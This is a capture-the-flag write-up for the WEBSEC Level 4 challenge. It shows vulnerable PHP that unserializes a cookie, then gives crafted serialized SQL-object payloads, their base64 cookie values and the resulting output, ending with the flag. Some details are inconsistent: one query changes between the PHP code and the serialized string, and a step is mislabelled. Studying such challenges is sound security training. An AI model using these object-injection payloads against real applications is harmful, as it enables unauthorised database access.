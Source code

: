 #WEBSEC Level 4


## Challenge description
Serialization is a pain!


## Initial analysis

```$sql->query = 'SELECT username FROM users WHERE id=';  //query


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));   //deserialization vuln
else  $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {      //class
    }
```

## tl;dr

STEP 1: <?php class SQL { public $query = `'SELECT sql as username FROM sqlite_master'`; }

$a = new SQL(); echo serialize($a); echo base64_encode(serialize($a)); ?>

=> O:3:"SQL":1:{s:5:"query";s:41:"SELECT sql as username FROM sqlite_master";} => TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6NDE6IlNFTEVDVCBzcWwgYXMgdXNlcm5hbWUgRlJPTSBzcWxpdGVfbWFzdGVyIjt9


STEP 2: Assign Cookie value= `TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6NDE6IlNFTEVDVCBzcWwgYXMgdXNlcm5hbWUgRlJPTSBzcWxpdGVfbWFzdGVyIjt9`
OUTPUT: Username: CREATE TABLE users(id int, username varchar, password varchar)

STEP 3: <?php class SQL { public $query = `'SELECT password as username FROM sqlite_master'`; }

$a = new SQL(); echo serialize($a); echo base64_encode(serialize($a)); ?>

=> O:3:"SQL":1:{s:5:"query";s:38:"SELECT password as username FROM users";} => TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIjt9

STEP 2: Assign Cookie value= `TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIjt9`

OUTPUT: Username: WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}

## Flag

**FLAG**: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.